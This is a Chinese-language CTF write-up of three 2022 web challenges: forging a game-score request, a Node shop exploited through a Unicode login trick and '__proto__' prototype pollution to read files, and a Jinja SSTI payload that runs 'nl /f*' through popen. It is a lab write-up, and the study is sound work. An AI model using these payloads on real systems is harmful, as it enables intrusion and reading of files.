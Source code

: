 ## web

### dino3d

**关键代码**

```java

sn(e, t) {
        e && t && fetch("/check.php", {
            method: "POST",
            headers: {
                "Content-type": "application/x-www-form-urlencoded; charset=UTF-8"
            },
            body: "score=" + parseInt(e).toString() + "&checkCode=" + md5(parseInt(e).toString() + t) + "&tm=" + (+new Date).toString().substring(0, 10)
        }).then(e => e.text()).then(e => alert(e))
    }
```

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled.png)

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%201.png)

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%202.png)

已知checkCode的计算方式

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%203.png)

构造

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%204.png)

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%205.png)

发现还是不对吗，可能是时间戳有校验

生成一个字典，爆破

```python
list = "1234567890"
f = open("num.txt", 'a')
for l1 in list:
		for l2 in list:
			for l3 in list: 
				for l4 in list:
					text = "{}{}{}{}\n".format(l1,l2,l3,l4)
					f.write(text)
f.close()
```

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%206.png)

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%207.png)

也可以直接在浏览1器的控制台用function 定义sn函数，直接sn(1000000,’1000000DASxCBCTF_wElc03e’)

### CBshop

**源码**

```python
const fs = require('fs');
const express = require('express');
const session = require('express-session');
const bodyParse = require('body-parser');
const app = express();
const PORT = process.env.PORT || 80;
const SECRET = process.env.SECRET || "cybershop_challenge_secret"

const adminUser = {
    username: "admin",
    password: "😀admin😀",
    money: 9999
};

app.use(bodyParse.urlencoded({extended: false}));
app.use(express.json());
app.use(session({
    secret: SECRET,  
    saveUninitialized: false,  
    resave: false, 
    cookie: { maxAge: 3600 * 1000 }
}));
app.use(express.static("static"));

app.get('/isLogin', function(req, res) {
    if(req.session.username) {
        return res.json({
            code: 2,
            username: req.session.username,
            money: req.session.money
        });
    }else{
        return res.json({code: 0, msg: 'Please login!'});
    }
});

app.post('/login', function(req, res) {
    let username = req.body.username;
    let password = req.body.password;
    if (typeof username !== 'string' || username === '' || typeof password !== 'string' || password === '') {
        return res.json({code: 4, msg: 'illegal username or password!'})
    }

    if(username === adminUser.username && password === adminUser.password.substring(1,6)) {//only admin need password
        req.session.username = username;
        req.session.money = adminUser.money;
        return res.json({
            code: 1,
            username: username,
            money: req.session.money,
            msg: 'admin login success!'
        });
    }
    req.session.username = username;
    req.session.money = 10;
    return res.json({
        code: 1,
        username: username,
        money: req.session.money,
        msg: `${username} login success!`
    });
});

app.post('/changeUsername', function(req, res) {
    if(!req.session.username) {
        return res.json({
            code: 0,
            msg: 'please login!'
        });
    }
    let username = req.body.username;
    if (typeof username !== 'string' || username === '') {
        return res.json({code: 4, msg: 'illegal username!'})
    }
    req.session.username = username;
    return res.json({
        code: 2,
        username: username,
        money: req.session.money,
        msg: 'Username change success'
    });
});

//购买商品的接口
function buyApi(user, product) {
    let order = {};
    if(!order[user.username]) {
        order[user.username] = {};
    }

    Object.assign(order[user.username], product);

    if(product.id === 1) {             //buy fakeFlag
        if(user.money >= 10) {
            user.money -= 10;
            Object.assign(order, { msg:  fs.readFileSync('/fakeFlag').toString() });
        }else{
            Object.assign(order,{ msg: "you don't have enough money!" });
        }
    }else if(product.id === 2) {        //buy flag
        if(user.money >= 11 && user.token) {  //do u have token?
            if(JSON.stringify(product).includes("flag")) {
                Object.assign(order,{ msg: "hint: go to 'readFileSync'!!!!" });
            }else{
                user.money -= 11;
                Object.assign(order,{ msg: fs.readFileSync(product.name).toString() });
            }
        }else {
            Object.assign(order,{ msg: "nononono!" });
        }
    }else {
        Object.assign(order,{ code: 0, msg: "no such product!" });
    }
    Object.assign(order, { username: user.username, code: 3, money: user.money });
    return order;
}

app.post('/buy', function(req, res) {
    if(!req.session.username) {
        return res.json({
            code: 0,
            msg: 'please login!'
        });
    }
    var user = {
        username: req.session.username,
        money: req.session.money
    };
    var order = buyApi(user, req.body);
    req.session.money = user.money;
    res.json(order);
});

app.get('/logout', function(req, res) {
    req.session.destroy();
    return res.json({
        code: 0,
        msg: 'logout success!'
    });
});

app.listen(PORT, () => {console.log(`APP RUN IN ${PORT}`)});
```

一个原型链污染，当时没做出来登录admin后是10块钱，后来看wp😀算两个字符，在密码校验的时候要先手动把符号Unicode一下

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%208.png)

登录的时候校验就是用第2个到第6个字符，既`\uDE00admi` 这样就能登录成功。

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%209.png)

然后将名字改为`__proto__` 再买flag就可以了

## Text Reverser

一个倒过来的ssti,做的时候忘记自己的fuzz字典在哪里了，真猪啊

大概两种做法，一个是直接print出来

`{% print [].**class**.**base**.**subclasses**()[132].**init**.**globals**['popen']('nl /f*').read()%}`

这是可以直接命令执行的

![Untitled](2022%209%205c7d9f0b4165465d92828b9e6a817ae4/Untitled%2010.png)

还有一种是怪驰的盲注

`{% if ***==""%}1{% endif%}`